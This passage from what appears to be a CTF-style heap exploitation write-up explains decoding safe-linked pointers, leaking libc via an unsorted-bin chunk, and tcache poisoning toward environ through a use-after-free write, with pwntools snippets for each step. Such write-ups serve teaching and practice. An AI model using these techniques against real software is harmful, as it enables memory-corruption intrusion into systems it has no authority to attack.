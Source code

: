 Since chunks are close together: `(addr_of_A >> 12) ≈ (addr_of_B >> 12)`

Therefore:
- `key ≈ (addr_of_A >> 12)`
- `real_addr_of_A = protected_ptr XOR key`

### Stage 2: Libc Address Leak

**Goal:** Leak libc base address to defeat ASLR.

Large chunks (≥1024 bytes) go to the unsorted bin and contain pointers to `main_arena` (inside libc).

```python
# chunk_C (0x420 bytes) was freed earlier
read(chunk_C)
p.recvn(2)  # Skip first 2 bytes
leak3 = u64(p.recvn(6).ljust(8, b'\x00'))
libc_base = leak3 - 0x210b20  # Known offset to libc base
log.success(f"Libc base: {hex(libc_base)}")
```

**How It Works:**

Unsorted bin chunks are a doubly-linked list. The `fd` and `bk` pointers point to `main_arena+96` (in libc):

```
chunk_C after free:
+0x00: prev_size
+0x08: size
+0x10: fd -> main_arena+96 (in libc.so.6)
+0x18: bk -> main_arena+96 (in libc.so.6)
```

Since `main_arena` has a fixed offset from libc base, we can calculate libc base.

### Stage 3: Stack Address Leak

**Goal:** Find the location of the return address on the stack.

We'll use the `environ` variable in libc, which points to the environment variables array on the stack.

#### Step 1: Calculate environ Address

```python
environ = libc_base + libc.symbols['environ']
log.info(f"environ address: {hex(environ)}")
```

#### Step 2: Tcache Poisoning

Overwrite chunk_D's forward pointer to redirect allocation to `environ-24`:

```python
delete(chunk_D)

# Calculate protected pointer for environ-24
target = environ - 24
xor_key = (heap_base + 0x1000) >> 12
protected_target = target ^ xor_key

payload = p64(protected_target)
write(chunk_D, 0, payload)  # UAF write to freed chunk_D
```
